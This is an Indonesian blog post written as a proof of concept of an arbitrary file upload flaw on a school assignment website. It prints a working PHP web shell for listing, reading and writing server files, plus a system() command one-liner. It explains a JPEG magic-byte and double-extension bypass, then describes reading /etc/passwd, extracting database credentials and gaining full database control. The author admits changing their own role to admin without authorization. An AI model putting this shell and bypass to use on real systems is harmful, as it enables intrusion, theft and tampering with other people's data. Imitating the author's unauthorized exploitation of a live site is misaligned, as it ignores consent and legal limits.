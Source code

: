 ```yaml
---
title: "Database Control + Server Configuration Leaked via Arbitrary File Upload"
date: "2025-06-29"
description: "PoC of Vulnerability in asessment24.site"
categories: [
    "Blog"
]
tags : [
    "Proof of Concept"
]
image: database.png
---
```

#####
> Kerentanan ini sudah dilaporkan dan sudah difix

Singkat cerita, saya diberi tau oleh seseorang terkait sebuah website khusus jurusan `RPL`, di website ini diberikan fitur seperti Register, Login, File Upload dll (Kelas saya tidak diberitahu karna memang kelas saya tidak diajar oleh Pak `Rian`, dan sepertinya web ini khusus untuk mengumpulkan project-project yang diajar oleh Pak `Rian`)

Dan begini tampilan website nya (setelah login),

![](gambar.png)

Keren nya disini, ada fitur untuk profile, dan tentu bisa diupdate, disini kita bisa upload image untuk diset sebagai profile gambar kita,

![](profile.png)

Dan ya, disini lah juga kerentanannya berada, yaitu pada fitur `Upload Image` pada Profile. Btw, kerentanan pada fitur `Upload Image` ini akan tidak berguna jika kita tidak dapat endpoint access terhadap gambar yang telah kita kita upload, dan di website ini, seluruh gambar siswa disimpan di direktori `/assets`, yang artinya kita dapat access endpoint terhadap file yang telah kita upload.

Yang pertama, disini saat kita memilih file untuk kita dapat upload, memang disuruh untuk menginputkan file yang berekstensi gambar (`png, jpg, dll`) tapi disini alih alih kita menginputkan ekstensi file tersebut, kita dapat menginputkan file dengan ekstensi lain, seperti `txt`, dan... `php`

<video controls width="100%">
  <source src="/videos/yesking.mp4" type="video/mp4">
  Browser lo gak support video tag.
</video>


Nah, catatan nya disini, kalo yg kita upload itu adalah ekstensi file code, maka saat kita mencoba akses lewat `/assets` tidak bisa karna otomatis langsung ke download, untuk bypass ini, kita bisa bikin seolah olah gambar kita adalah gambar jpeg (gambar jpeg ketika diakses dapat mengeluarkan output raw dari file nya)

script PHP untuk LFI:
```php
<?php
if (isset($_GET['ls'])) {
    echo "<pre>";
    $path = $_GET['ls'] ?: '.';
    foreach (scandir($path) as $file) {
        echo $file . "\n";
    }
    echo "</pre>";
    exit;
}

if (isset($_GET['read'])) {
    echo "<pre>";
    echo htmlspecialchars(file_get_contents($_GET['read']));
    echo "</pre>";
    exit;
}

if (isset($_GET['write']) && isset($_POST['data'])) {
    file_put_contents($_GET['write'], $_POST['data']);
    echo "File written.";
    exit;
}
?>
```
`"Kenapa LFI? kok ga langsung RCE aja?"`

Sebelumnya udah nyoba untuk pake script RCE,
```php
<?php system($_GET["cmd"]); ?>
```
tapi gagal yang karna diblacklist oleh `Firewall` bawaan dari server, biasanya, untuk `exec`, `shell_exec`, dan `system()` diblacklist, dan ini berlaku juga untuk server hosting yang gratisan maupun berbayar

Nah, disini, untuk bypassing nya agar script PHP nya tetap bisa berjalan, kita bisa menambahkan `Magic Byte` dan `Header Byte` dari file format `JPG`

![](xxd.png)

dan juga saat rename file script shell nya menjadi `shell.php.jpg`

![](fileformat.png)

dan setelah diupload, tinggal access aja ke endpoint `/assets`

![](passwd.png)

Dan itu untuk yang LFI, sekarang yang `Database`, karna kita udh punya LFI nya, sekarang kita tinggal nyari file `config.php` atau `koneksi.php`, dan karna ini LFI, disini perlu usaha ekstra untuk mencari file nya di tiap tiap direktori

![](db.png)

disini saya tinggal copy config nya dan tambahkan beberapa fungsi untuk menampilkan data nya berdasarkan query input,

![](dbtable.png)

dan disini saya punya hak akses tinggi, bisa create, read, update, dan `delete`.

Dan segitu saja Proof of Concept dari Vulnerability yang telah saya temukan, semoga bisa membantu (btw saya gak ngelakuin hal illegal selain update role saya sendiri jadi `admin` :v)

